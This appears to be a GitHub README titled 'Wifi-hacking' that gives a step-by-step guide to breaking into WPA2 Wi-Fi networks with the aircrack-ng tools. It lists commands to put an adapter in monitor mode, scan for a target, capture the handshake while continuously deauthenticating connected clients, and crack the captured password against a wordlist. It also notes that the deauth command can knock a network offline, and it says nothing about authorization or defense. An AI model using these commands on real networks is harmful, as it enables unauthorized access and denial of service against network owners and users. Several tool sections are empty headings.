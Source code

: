 # Wifi-hacking

## Table of content

- [hardware](#hardware)
- [tools](#tools)
  - [aircrack ng](#aircrack-ng)
  - [airmon ng](#airmon-ng)
  - [airodump ng](#airodump-ng)
  - [wifite](#wifite)
- [cracking manualy with aircrack tools](#cracking-manualy-with-aircrack-tools)
  - [kill processes](#kill-processes)
  - [interface to monitor mode](#interface-to-monitor-mode)
  - [discover wifi](#discover-wifi)
  - [view just the target](#view-just-the-target)
  - [capture WPA2 handshake plus deauthenticate](#capture-WPA2-handshake-plus-deauthenticate)
  - [cracking the handshake](#cracking-the-handshake)

  
  

  
### hardware
  
my recommended use is Alfa AWUS036ACH-C
  
example site:
```
https://cdon.se/hemelektronik/alfa-awus036ach-c-p85144443?gclid=Cj0KCQjwof6WBhD4ARIsAOi65ajClanJarTELWA8x2m-jddNlS2pyJNLfaKC6foh1Ex3yA0PkQHw674aAoA8EALw_wcB
```
  
### tools 
  
## aircrack ng
  
## airmon ng
  
## airodump-ng
  
## wifite
  
## cracking manualy with aircrack tools
### kill processes
killing the processes that may interfere
```
sudo airmon-ng check kill
```

### interface to monitor mode
to put the interface/adapter to monitor mode type:
```
sudo airmon-ng start <interface>
```

### discover wifi
to search and find wifi in the area type:
```
sudo airodump-ng <interface>
```
then you should find the wifi you want to target and write up
*   BSSID (it is the mac address)
*   Channel (CH)

### view just the target
to see just the target type:
```
sudo airodump-ng <interface> -d <BSSID>
```
then you can see info about the target
plsu you can see clients connected to the network


### capture WPA2 handshake plus deauthenticate
now you will capture the WPA2 handshake. type:
```
sudo airodump-ng -w <name of the file you want to name for the capture> -c <channel> --bssid <BSSID> <interface>
```
press enter
then at the same time after entered the capture and letting it go we will go on and open a second window/terminal we will deauthenticate clients from the network by typing:
```
sudo aireplay-ng --deauth 0 -a <BSSID> <interface>
```
(ops the deauth part can sometimes be used to Ddos a wifi network)

then after a while the handshake should be captured

### cracking the handshake
we should have a file which ends with ".pcap" 
we have to put the adapter which is on monitor mode back to manage mode by typing: 
```
sudo airmon-ng stop <interface>
``` 
now its time to crack the .pcap file
```
aircrack-ng <the pcap file> -w <wordlist to crack the password>
```




